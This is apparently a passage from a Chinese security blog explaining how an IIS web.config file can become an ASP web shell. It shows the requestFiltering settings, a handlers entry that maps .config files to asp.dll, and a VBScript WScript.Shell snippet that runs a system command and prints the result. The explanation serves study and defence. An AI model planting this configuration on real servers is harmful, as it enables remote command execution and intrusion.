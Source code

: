下面展示一下 requestFiltering 的不同配置可能带来的后果：

  

A：web.config 未配置 requestFiltering 项：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230625172509.png)

 _错误码：404.8_

 _可能的原因：为 Web 服务器配置了请求筛选，它包含了 hiddenSegments 节，允许服务器管理员拒绝对特定目录的访问。_

因为默认配置中，将 “.config” 拓展名设置为 “隐藏” 的，所以无法直接访问；

  

B：web.config 仅配置 requestFiltering 项中的 fileExtensions。此时访问任意 “.config”
文件时的报错提示同上，就不贴图片了；

  

 C：web.config 仅配置 requestFiltering 项中hiddenSegments。

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230625172510.png)

 _错误码：404.7_

 _可能的原因：为 Web 服务器配置了请求筛选，此请求的文件拓展名被明确拒绝。_

  

 **然后** ，配置文件中的 handlers 的是灵魂

      <handlers accessPolicy="Read, Script, Write">

         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />

      </handlers>

从配置中比较容易理解，新建一个新的叫 “web_config”的处理器，这个处理器会将 “.config” 文件交给 asp.dll
处理，这样就能对文件中的 asp 脚本部分做解析。

Set wShell1 = CreateObject("WScript.Shell")

Set cmd1 = wShell1.Exec("ifconfig")

output1 = cmd1.StdOut.Readall()

set cmd1 = nothing: Set wShell1 = nothing

Response.write(output1)

配合着下半部分的代码，这部分 asp 脚本的语言是 VBscript，主要的逻辑是新建一个 WScript.shell
对象，用来直接执行系统命令，然后将结果输出。

  

 **最后** ，再来看一下，当我们访问 web.config 时都发生了些什么：

  

当 IIS 收到对 web.config 请求的时候，会先读取 web.config 的内容（访问任意内容时都会先读取 web.config），读取了
web.config 内容并解析之后，因为配置中的 requestFiltering，开放了对 “.config”的访问，那么这次访问不会 404。
